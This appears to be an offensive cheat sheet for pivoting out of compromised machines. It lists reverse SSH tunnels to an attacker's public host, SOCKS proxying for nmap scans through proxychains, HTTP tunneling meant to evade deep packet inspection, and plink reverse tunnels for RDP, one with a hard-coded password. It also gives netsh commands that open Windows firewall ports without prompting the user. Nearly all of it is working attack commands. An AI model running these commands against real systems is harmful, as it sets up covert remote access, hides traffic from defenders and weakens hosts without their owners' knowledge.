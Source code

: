 # Create reverse SSH tunnel from Popped machine on :2222
ssh -f -N -T -R22222:localhost:22 yourpublichost.example.com
ssh -f -N -R 2222:<local host>:22 root@<remote host>

# Create a Dynamic application-level port forward on 8080 thru 2222
ssh -f -N -D <local host>:8080 -p 2222 hax0r@<remote host>

# Leverage the SSH SOCKS server to perform Nmap scan on network using proxy chains
proxychains nmap --top-ports=20 -sT -Pn $ip/24

# HTTP Tunneling
nc -vvn $ip 8888

# Traffic Encapsulation - Bypassing deep packet inspection

http tunnel
On server side:
sudo hts -F <server ip addr>:<port of your app> 80  
On client side:
sudo htc -P <my proxy.com:proxy port> -F <port of your app> <server ip addr>:80 stunnel

# Tunnel Remote Desktop (RDP) from a Popped Windows machine to your network
Tunnel on port 22
plink -l root -pw pass -R 3389:<localhost>:3389 <remote host>

# Port 22 blocked? Try port 80? or 443?
plink -l root -pw 23847sd98sdf987sf98732 -R 3389:<local host>:3389 <remote host> -P80

# Tunnel Remote Desktop (RDP) from a Popped Windows using HTTP Tunnel (bypass deep packet inspection)

# Windows machine add required firewall rules without prompting the user
netsh advfirewall firewall add rule name="httptunnel_client" dir=in action=allow program="httptunnel_client.exe" enable=yes
netsh advfirewall firewall add rule name="3000" dir=in action=allow protocol=TCP localport=3000
netsh advfirewall firewall add rule name="1080" dir=in action=allow protocol=TCP localport=1080
netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079
